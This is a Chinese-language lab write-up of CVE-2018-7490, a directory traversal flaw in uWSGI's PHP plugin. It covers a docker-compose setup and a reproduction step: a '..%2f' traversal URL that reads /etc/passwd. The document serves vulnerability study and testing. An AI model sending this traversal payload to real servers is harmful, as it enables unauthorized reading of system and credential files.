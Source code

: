 # uWSGI PHP目录穿越漏洞 CVE-2018-7490

## 漏洞描述

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 环境搭建

运行存在漏洞的uWSGI服务器：

```
docker-compose up -d
```

运行完成后，访问`http://your-ip:8080/index.php`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

![image-20220302163241788](images/202203021632153.png)

## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![image-20220302163149769](images/202203021631956.png)

